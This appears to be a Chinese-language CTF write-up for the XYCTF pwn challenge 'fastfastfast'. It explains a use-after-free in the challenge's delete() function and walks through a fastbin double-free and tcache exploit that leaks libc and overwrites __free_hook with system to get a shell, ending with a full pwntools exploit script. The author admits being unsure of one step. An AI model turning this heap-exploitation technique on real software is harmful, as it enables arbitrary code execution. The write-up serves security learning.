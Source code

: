 ```yaml
---
title: '[XYCTF] fastfastfast'
date: 2024-08-17 13:00:00 +0800
categories: [uaf,fast_bin_attack,tcache,leak_libc]
tags: [ctf,pwn]
---
```


```shell
[*] '/home/bamuwe/fastfastfast/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fd000)
```

> $ checksec ./vuln

```shell
1. create note
2. delete note
3. show content
>>>
```

> $ ./vuln

```c
void __cdecl delete()
{
  unsigned int idx; // [rsp+Ch] [rbp-14h] BYREF
  unsigned __int64 v1; // [rsp+18h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts("please input note idx");
  __isoc99_scanf("%u", &idx);
  if ( idx <= 0xF )
    free(note_addr[idx]);
  else
    puts("idx error");
}
```

> delete()漏洞函数,没有清除指针

```python
def add(idx,content):
    io.sendlineafter(b'>>>',b'1')
    io.sendlineafter(b'idx\n',str(idx))
    io.sendlineafter(b'content\n',content)
    
def free(idx):
    io.sendlineafter(b'>>>',b'2')
    io.sendlineafter(b'idx\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'>>>',b'3')
    io.sendlineafter(b'idx\n',str(idx))
```

> 交互函数

程序逻辑:

1. `add()`堆块大小固定`0x71`
2. `free()`后没有清空指针

利用思路:

1. 填满`tcache_bin`构造`fast_bin_attack`,将堆块放在原来有`libc_addr`的地方,泄露出`libc_addr`

   ```python
   for i in range(9):
       add(i,b'a')
   
   for i in range(7):
       free(i)
   free(7)
   free(8)
   free(7)
   ```

   ![image-20240503134919203](../assets/img/old_imgs/image-20240503134919203.png)

   要利用`fastbin_attack`要先把`tcachebin`中的堆块利用

   ```python
   for i in range(7):
       add(i,b'a')
   ```

   ![image-20240503135100011](../assets/img/old_imgs/image-20240503135100011.png)

   ```python
   add(7,p64(0x4040A8))
   ```

   修改`fd`为目标地址,关于这个地址后文说明

   ![image-20240503135226136](../assets/img/old_imgs/image-20240503135226136.png)

   再申请三个堆块就可以得到目标`chunk`

   ```python
   add(8,b'a')
   add(9,b'b')
   add(10,p64(0)*3+p64(elf.got['free']))   #?
   show(0)
   #leak_libc
   free_addr = u64(io.recv(6).ljust(8,b'\x00'))
   lib_base = free_addr-lib.sym['free']
   free_hook_addr = lib_base+lib.sym['__free_hook']
   sys_addr = lib_base+lib.sym['system']
   success(hex(free_addr))
   success(f'free_hook_addr=>{hex(free_hook_addr)}')
   ```

   得到`libc`这里`p64(0)*3+p64(elf.got['free'])`应该是堆块结构有关

2. 修改`__free_hook`地址上的内容为`system`地址,构造`system(/bin/sh)`,得到`shell`

   ```python
   for i in range(9):
       add(i,b'/bin/sh\x00')
   for i in range(7):
       free(i)
   free(7)
   free(8)
   free(7)
   
   for i in range(7):
       add(i,b'a')
   add(7,p64(free_hook_addr))
   add(8,b'a')
   add(9,b'/bin/sh\x00')
   add(10,p64(sys_addr))
   free(9)
   ```

   利用手法同上

关于地址`0x4040A8`:

这是存贮堆块列表的地址,即变量`note_addr`的地址,覆盖其上堆块内容,再打印出来

![image-20240503140252580](../assets/img/old_imgs/image-20240503140252580.png)

exp:

```python
#GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.7) stable release version 2.31.
from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
context.log_level = 'debug'
io = gdb.debug('./vuln','b *0x401564')
# io = remote('gz.imxbt.cn',20788)
elf = ELF('./vuln')
lib = ELF('./libc-2.31.so')

def add(idx,content):
    io.sendlineafter(b'>>>',b'1')
    io.sendlineafter(b'idx\n',str(idx))
    io.sendlineafter(b'content\n',content)
    
def free(idx):
    io.sendlineafter(b'>>>',b'2')
    io.sendlineafter(b'idx\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'>>>',b'3')
    io.sendlineafter(b'idx\n',str(idx))
    
for i in range(9):
    add(i,b'a')

for i in range(7):
    free(i)
free(7)
free(8)
free(7)

for i in range(7):
    add(i,b'a')

add(7,p64(0x4040A8))
add(8,b'a')
add(9,b'b')
add(10,p64(0)*3+p64(elf.got['free']))   #?
show(0)
#leak_libc
free_addr = u64(io.recv(6).ljust(8,b'\x00'))
lib_base = free_addr-lib.sym['free']
free_hook_addr = lib_base+lib.sym['__free_hook']
sys_addr = lib_base+lib.sym['system']
success(hex(free_addr))
success(f'free_hook_addr=>{hex(free_hook_addr)}')

for i in range(9):
    add(i,b'/bin/sh\x00')
for i in range(7):
    free(i)
free(7)
free(8)
free(7)

for i in range(7):
    add(i,b'a')
add(7,p64(free_hook_addr))
add(8,b'a')
add(9,b'/bin/sh\x00')
add(10,p64(sys_addr))
free(9)

io.interactive()
```

